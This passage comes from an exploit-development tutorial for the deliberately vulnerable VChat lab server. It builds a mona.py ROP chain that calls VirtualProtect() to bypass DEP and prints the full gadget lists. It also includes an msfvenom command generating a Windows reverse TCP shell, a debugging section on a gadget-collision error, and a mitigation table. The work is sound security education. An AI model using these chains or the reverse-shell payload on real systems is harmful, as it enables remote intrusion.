      

   2. We will want to load the registers in such a way that the stack has the following signature.

      

      * We need to load the `EDI` register with the address of a `RETN` instruction. This is because the first word following the `ESP pointer` will be used as the address we jump to. Since the `EDI` register will be this value, it is easiest to chain to `RETN` instructions together to bypass this problem.
      * The `ESI` register will hold the address of the `VirtualProtect(...)` function so the second `RETN` instruction will jump to the desired location.
      * The `EBP` register will need to contain the Address the `VirtualProtect(...)` function will jump to on completion.
      * The `ESP` register will be the value of the `ESP` before all of the operations used to modify the stack, as we can see from the actions it will take listed above. This will be the argument that controls the `lpAddress` value, which specifies the start point of the memory region we would like to modify the permissions of.
      * The `EBX` register will be the value of `dwSize` which specifies the size of the region we would like to modify the permissions of.
      * The `EDX` register will contain the value of the `flNewProtect` argument which represents the permissions we would like to place on the memory region we have specified.
      * The `ECX` register will contain the value of the `lpflOldProtect` argument which is the address the old status and permissions of the memory region we have specified will be written.
      * The `EAX` register would normally be empty, however we will want to ensure it does not write invalid instructions onto the stack which would crash the program and prevent the exploit from executing; so we can write a series of NOP instructions (0x90) onto the stack, as this is a 32 bit program we will need to write four NOP instructions into the register to fill it.

   3. We can use the following command provided by [mona.py](https://github.com/corelan/mona) to generate the chain for us. The resulting chains will be located in `rop_chains.txt`; if there are missing gadgets, they could be located in `rop.txt` or `rop_suggestions.txt`. These will be located in the working directory for the mona.py program and Immunity Debugger, in my case this was in the directory `C:\Users<User>\AppData\Local\VirtualStore\Program Files (x86)\Immunity Inc\Immunity Debugger`. You can also use the command `!mona config -set workingfolder c:\logs\E10` to set the folder our output will be stored in.

   ```
   !mona rop -m *.dll -n
   ```
   * `-m *.dll`: Search through all DLL files when building ROP chains.
   * `-n`: Ignore all modules that start with a Null Byte.

4. We can try executing this ROP chain by modifying the program to reflect the [exploit1.py](./SourceCode/exploit1.py) program. Below is the function in the `rop_chain.txt` function.

   https://github.com/DaintyJet/VChat_TRUN_ROP/assets/60448620/84a9e576-4c96-48e7-a2cd-d242f148c27d

      ```
      def create_rop_chain():
         # rop chain generated with mona.py - www.corelan.be
         rop_gadgets = [
            #[---INFO:gadgets_to_set_esi:---]
            0x7699cfcf,  # POP ESI # RETN [RPCRT4.dll] ** REBASED ** ASLR
            0x62508128,  # ptr to &VirtualProtect() [IAT essfunc.dll]
            0x77083491,  # MOV ESI,DWORD PTR DS:[ESI] # ADD AL,0 # MOV EAX,8007007F # RETN 0x18 [KERNELBASE.dll] ** REBASED ** ASLR
            #[---INFO:gadgets_to_set_ebp:---]
            0x770988dc,  # POP EBP # RETN [KERNELBASE.dll] ** REBASED ** ASLR
            0x41414141,  # Filler (RETN offset compensation)
            0x41414141,  # Filler (RETN offset compensation)
            0x41414141,  # Filler (RETN offset compensation)
            0x41414141,  # Filler (RETN offset compensation)
            0x41414141,  # Filler (RETN offset compensation)
            0x41414141,  # Filler (RETN offset compensation)
            0x625014e6,  # & jmp esp [essfunc.dll]
            #[---INFO:gadgets_to_set_ebx:---]
            0x77508b1d,  # POP EAX # RETN [ntdll.dll] ** REBASED ** ASLR
            0xfffffdff,  # Value to negate, will become 0x00000201
            0x7692da18,  # NEG EAX # RETN [RPCRT4.dll] ** REBASED ** ASLR
            0x769a80d2,  # XCHG EAX,EBX # RETN [RPCRT4.dll] ** REBASED ** ASLR
            #[---INFO:gadgets_to_set_edx:---]
            0x7707f452,  # POP EAX # RETN [KERNELBASE.dll] ** REBASED ** ASLR
            0xffffffc0,  # Value to negate, will become 0x00000040
            0x76d39914,  # NEG EAX # RETN [KERNEL32.DLL] ** REBASED ** ASLR
            0x7743a4b2,  # XCHG EAX,EDX # RETN [ntdll.dll] ** REBASED ** ASLR
            #[---INFO:gadgets_to_set_ecx:---]
            0x7678816a,  # POP ECX # RETN [msvcrt.dll] ** REBASED ** ASLR
            0x765e3bf2,  # &Writable location [WS2_32.dll] ** REBASED ** ASLR
            #[---INFO:gadgets_to_set_edi:---]
            0x7747e114,  # POP EDI # RETN [ntdll.dll] ** REBASED ** ASLR
            0x765a77c7,  # RETN (ROP NOP) [WS2_32.dll] ** REBASED ** ASLR
            #[---INFO:gadgets_to_set_eax:---]
            0x77095618,  # POP EAX # RETN [KERNELBASE.dll] ** REBASED ** ASLR
            0x90909090,  # nop
            #[---INFO:pushad:---]
            0x76f8af08,  # PUSHAD # RETN [KERNELBASE.dll] ** REBASED ** ASLR
         ]
         return ''.join(struct.pack('<I', _) for _ in rop_gadgets)
      # Example Declaration
      rop_chain = create_rop_chain()
      ```
      * *Note*: We will need to modify the return to be `return b''.join(struct.pack('<I', _) for _ in rop_gadgets)` as without converting it to a byte string, we will receive errors!

      1. Click on the black button highlighted below, and enter the address we decided for the `PUSHAD` instruction.

         

      2. Set a breakpoint at the desired address (right-click). In this case, I chose `0x76F8AF08`, the address of our `PUSHAD` instruction.

         

      3. Run the [exploit1.py](./SourceCode/exploit1.py) program and observe the results in the registers.

         

      4. We can see this a little better when we step into the function call (If any of these do not match, there is a conflict between gadgets! You should look at the section [Previous Error](#previous-error)).

         

      5. Step through the function and ensure it jumps back to the stack, if you see a `RETN 18` following this will likely be a jump to some random point in the stack, and a raised exception (See the video Below). **Do Not** step into `VirtualProtect()` function use the *Step Over* operation as shown below. Otherwise, you will see an error in the video below. This is because following that execution path will lead into the kernel which is not allowed (Stopping execution in the kernel would be bad).

         

         * This is likely due to the fact Immunity Debugger will attempt to trace and follow the execution into the Kernel Mode which is not supported in Immunity Debugger and we would be attempting to debug the kernel of the machine we are running on! Below is a Video showing the error when we step into the function.

         https://github.com/DaintyJet/VChat_TRUN_ROP/assets/60448620/b5d8de53-356d-4400-8ee7-df7bda4be74c

5. Now we can add a payload to our exploit, this can be generated with [msfvenom](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html).

	```
	$ msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.15 LPORT=8080 EXITFUNC=thread -f python -v SHELL -a x86 --platform windows -b '\x00\x0a\x0d'
	```
	* `-p `: Payload we are generating shellcode for.
    	* `windows/shell_reverse_tcp`: Reverse TCP payload for Windows.
    	* `LHOST=10.0.2.7`: The remote listening host's IP, in this case our Kali machine's IP `10.0.2.7`.
    	* `LPORT=8080`: The port on the remote listening host's traffic should be directed to in this case port 8080.
    	* `EXITFUNC=thread`: Create a thread to run the payload.
  	* `-f`: The output format.
    	* `python`: Format for use in python scripts.
  	* `-v`: Specify a custom variable name.
    	* `SHELL`: Shell Variable name.
  	* `-a x86`: Specify the target architecture as `x86`
	* `--platform windows`: Specify the target platform as Windows
  	* `-b`: Specifies bad chars and byte values. This is given in the byte values.
      	* `\x00\x0a\x0d`: Null char, carriage return, and newline.

6. Now, we can modify the exploit program to reflect [exploit2.py](./SourceCode/exploit2.py) and verify that we can acquire a reverse shell!

   https://github.com/DaintyJet/VChat_TRUN_ROP/assets/60448620/2494cc5f-1c18-4020-95ef-1b36454cf147

## Previous Error
This section covers a previous error encountered when using a ROP chain generated with `mona.py`. In this case there was a collision between gadgets leading to a corrupted call stack.


1. Using the [mona.py](https://github.com/corelan/mona) command, we generate a new ROP chain. This is necessary because gadgets located in modules with ASLR enabled are used.
   ```
   !mona rop -m *.dll -n
   ```
   Generated ROP chain:
   ```
   rop_gadgets = [
         #[---INFO:gadgets_to_set_esi:---]
            0x77aee14c,  # POP EAX # RETN [KERNELBASE.dll] ** REBASED ** ASLR
            0x6250609c,  # ptr to &VirtualProtect() [IAT essfunc.dll]
            0x75bedd86,  # MOV EAX,DWORD PTR DS:[EAX] # RETN [RPCRT4.dll] ** REBASED ** ASLR
            0x77c8c426,  # XCHG EAX,ESI # RETN [ntdll.dll] ** REBASED ** ASLR
            #[---INFO:gadgets_to_set_ebp:---]
            0x77cb90a1,  # POP EBP # RETN [ntdll.dll] ** REBASED ** ASLR
            0x625011c7,  # & jmp esp [essfunc.dll]
            #[---INFO:gadgets_to_set_ebx:---]
            0x75bd985e,  # POP EAX # RETN [RPCRT4.dll] ** REBASED ** ASLR
            0xa28001c1,  # put delta into eax (-> put 0x00000201 into ebx)
            0x77b54803,  # ADD EAX,5D800040 # RETN 0x1C [KERNELBASE.dll] ** REBASED ** ASLR
            0x76027d44,  # XCHG EAX,EBX # RETN [KERNEL32.DLL] ** REBASED ** ASLR
            0x41414141,  # Filler (RETN offset compensation)
            0x41414141,  # Filler (RETN offset compensation)
            0x41414141,  # Filler (RETN offset compensation)
            0x41414141,  # Filler (RETN offset compensation)
            0x41414141,  # Filler (RETN offset compensation)
            0x41414141,  # Filler (RETN offset compensation)
            0x41414141,  # Filler (RETN offset compensation)
            #[---INFO:gadgets_to_set_edx:---]
            0x77a9683b,  # POP EAX # RETN [KERNELBASE.dll] ** REBASED ** ASLR
            0xa0a7feb7,  # put delta into eax (-> put 0x00000040 into edx)
            0x75d1280f,  # ADD EAX,5F580189 # POP ESI # POP EBX # POP EBP # RETN [msvcrt.dll] ** REBASED ** ASLR
            0x41414141,  # Filler (compensate)
            0x41414141,  # Filler (compensate)
            0x41414141,  # Filler (compensate)
            0x75bb14f5,  # XCHG EAX,EDX # RETN [RPCRT4.dll] ** REBASED ** ASLR
            #[---INFO:gadgets_to_set_ecx:---]
            0x77c8f383,  # POP ECX # RETN [ntdll.dll] ** REBASED ** ASLR
            0x766b8056,  # &Writable location [WS2_32.DLL] ** REBASED ** ASLR
            #[---INFO:gadgets_to_set_edi:---]
            0x76033f63,  # POP EDI # RETN [KERNEL32.DLL] ** REBASED ** ASLR
            0x75bbc645,  # RETN (ROP NOP) [RPCRT4.dll] ** REBASED ** ASLR
            #[---INFO:gadgets_to_set_eax:---]
            0x75bee202,  # POP EAX # RETN [RPCRT4.dll] ** REBASED ** ASLR
            0x90909090,  # nop
            #[---INFO:pushad:---]
            0x779cba6c,  # PUSHAD # RETN [KERNELBASE.dll] ** REBASED ** ASLR
      ]
      return b''.join(struct.pack('<I', _) for _ in rop_gadgets)
   ```

2. An error in this ROP chain was discovered while debugging. The chain of gadgets for setting EDX used the following gadget to put 0x40 into EDX:
   ```
   0x75d1280f,  # ADD EAX,5F580189 # POP ESI # POP EBX # POP EBP # RETN [msvcrt.dll] ** REBASED ** ASLR
   ```
   * The problem with this gadget is that it also changes the values inthe ESI, EBX, and EBP registers which had already been set.

3. There are different ways to fix the problem. What was done to fix this used the same method to set edx, but with different instructions. You need to search for the following instruction sequence.
   ```
   ADD EAX,CONST
   RETN
   ```
   * Since the delta should not contain any null byte, a CONST that meets the requirement must be selected according to the relationship between the CONST and the delta.
      - `CONST + delta = 0x1 0000 0040`

4. To search for specific instruction sequences in Immunity debugger, you can do the following:

   - Right-click the debugging window -> Search for -> all sequences in all modules.



*  Any can be selected for example `0x75BD501C`. Accordingly, `delta = 0x1 0000 0040 - 0x5E5FC033 = 0xA1A0400D`.



The new gadgets for setting EDX is shown blow:
```
#[---INFO:gadgets_to_set_edx:---]
0x77a9683b,  # POP EAX # RETN [KERNELBASE.dll] ** REBASED ** ASLR
0xa1a0400d,  # put delta into eax (-> put 0x00000040 into edx)
0x75bd501c,  # ADD EAX,5E5FC033
0x75bb14f5,  # XCHG EAX,EDX # RETN [RPCRT4.dll] ** REBASED ** ASLR
```
## Attack Mitigation Table
In this section, we will discuss the effects a variety of defenses would have on *this specific attack* on the VChat server; specifically, we will be discussing their effects on a buffer overflow that directly overwrites a return address in order to execute a chain of gadgets to disable protections on the stack and attempts to execute shellcode that has been written to the stack. We will make a note that these mitigations may be bypassed if the target application contains additional vulnerabilities such as a [format string vulnerability](https://owasp.org/www-community/attacks/Format_string_attack), or by using more complex exploits like [Return Oriented Programming (ROP)](https://github.com/DaintyJet/VChat_TRUN_ROP) as we have done here.

First, we will examine the effects of individual defenses on this exploit, and then we will examine the effects of a combination of these defenses on the VChat exploit.

The mitigations we will be using in the following examination are:
* [Buffer Security Check (GS)](https://github.com/DaintyJet/VChat_Security_Cookies): Security Cookies are inserted on the stack to detect when critical data such as the base pointer, return address or arguments have been overflowed. Integrity is checked on function return.
* [Data Execution Prevention (DEP)](https://github.com/DaintyJet/VChat_DEP_Intro): Uses paged memory protection to mark all non-code (.text) sections as non-executable. This prevents shellcode on the stack or heap from being executed, as an exception will be raised.
* [Address Space Layout Randomization (ASLR)](https://github.com/DaintyJet/VChat_ASLR_Intro): This mitigation makes it harder to locate functions and data structures as their region's starting address will be randomized. This is only done when the process is loaded, and if a DLL has ASLR enabled, its addresses will only be randomized again when it is no longer in use and has been unloaded from memory.
* [SafeSEH](https://github.com/DaintyJet/VChat_SEH): This is a protection for the Structured Exception Handing mechanism in Windows. It validates that the exception handler we would like to execute is contained in a table generated at compile time.
* [SEHOP](https://github.com/DaintyJet/VChat_SEH): This is a protection for the Structured Exception Handing mechanism in Windows. It validates the integrity of the SEH chain during a runtime check.
* [Control Flow Guard (CFG)](https://github.com/DaintyJet/VChat_CFG): This mitigation verifies that indirect calls or jumps are performed to locations contained in a table generated at compile time. Examples of indirect calls or jumps include function pointers being used to call a function or if you are using `C++` virtual functions, which would be considered indirect calls as you index a table of function pointers.
* [Heap Integrity Validation](https://github.com/DaintyJet/VChat_Heap_Defense): This mitigation verifies the integrity of a heap when operations are performed on the heap itself, such as allocations or frees of heap objects.
### Individual Defenses: VChat Exploit
|Mitigation Level|Defense: Buffer Security Check (GS)|Defense: Data Execution Prevention (DEP)|Defense: Address Space Layout Randomization (ASLR) |Defense: SafeSEH| Defense: SEHOP | Defense: Heap Integrity Validation| Defense: Control Flow Guard (CFG)|
|-|-|-|-|-|-|-|-|
|No Effect| |X | |X |X | X| X| X|
|Partial Mitigation| | |X | | | | |
|Full Mitigation|X| | | | | | | |

---
|Mitigation Level|Defenses|
|-|-|
|No Effect|Data Execution Prevention (DEP), Address Space Layout Randomization, SafeSEH, SEHOP, Heap Integrity Validation, and Control Flow Guard (CFG) |
|Partial Mitigation|Address Space Layout Randomization|
|Full Mitigation|Buffer Security Checks (GS) |
* `Defense: Buffer Security Check (GS)`: This mitigation strategy proves effective against stack-based buffer overflows that overwrite a function's return address or arguments. This is because the randomly generated security cookie is placed before the return address, and its integrity is validated before the return address is loaded into the `EIP` register. As the security cookie is placed before the return address, in order for us to overflow the return address, we would have to corrupt the security cookie, allowing us to detect the overflow.
* `Defense: Data Execution Prevention (DEP)`: ROP chains bypass the DEP protections and are, therefore, ineffective.
* `Defense: Address Space Layout Randomization (ASLR)`: This defense partially mitigates this attack as it may randomize the addresses gadgets used in the ROP chain are located at. When enabled, this may be bypassed if all addresses are in external dependencies such as DLLs, which may not have their addresses randomized between executions unless the system reboots.
* `Defense: SafeSEH`: This does not affect our exploit as we do not leverage Structured Exception Handling.
* `Defense: SEHOP`: This does not affect our exploit as we do not leverage Structured Exception Handling.
* `Defense: Heap Integrity Validation`: This does not affect our exploit as we do not leverage the Windows Heap.
* `Defense: Control Flow Guard`: This does not affect our exploit as we do not leverage indirect calls or jumps. 
> [!NOTE]
> `Defense: Buffer Security Check (GS)`: If the application improperly initializes the global security cookie or contains additional vulnerabilities that can leak values on the stack, then this mitigation strategy can be bypassed.
### Combined Defenses: VChat Exploit
|Mitigation Level|Defense: Buffer Security Check (GS)|Defense: Data Execution Prevention (DEP)|Defense: Address Layout Randomization (ASLR) |Defense: SafeSEH| Defense: SEHOP | Defense: Heap Integrity Validation| Defense: Control Flow Guard (CFG)|
|-|-|-|-|-|-|-|-|
|Defense: Buffer Security Check (GS)|X|**No Increase**: ROP Chains are used to bypass DEP.|**Increased Security**: ASLR increases the randomness of the generated security cookie and makes it harder to use ROP Gadgets reliably.|**No Increase**: The SEH feature is not exploited.|**No Increase**: The SEH feature is not exploited.|**No Increase**: The Windows Heap is not exploited.|**No Increase**: Indirect Calls/Jumps are not exploited.| |

> [!NOTE]
> We omit repetitive rows representing ineffective mitigation strategies as their cases are already covered.

## Test code
1. [exploit0.py](./SourceCode/exploit0.py): Hand Edited ROP Chain.
2. [exploit1.py](./SourceCode/exploit1.py): Adding ROP gadgets for calling VirtualProtect() and disabling DEP.
3. [exploit2.py](./SourceCode/exploit2.py): Using ROP to disable DEP and run shellcode.


## References

[1] https://www.corelan.be/index.php/2010/06/16/exploit-writing-tutorial-part-10-chaining-dep-with-rop-the-rubikstm-cube/

[2] https://fuzzysecurity.com/tutorials/expDev/7.html

[3] https://www.syssec.wiwi.uni-due.de/fileadmin/fileupload/I-SYSSEC/research/RiscyROP.pdf

[4] https://www.ired.team/offensive-security/code-injection-process-injection/import-adress-table-iat-hooking
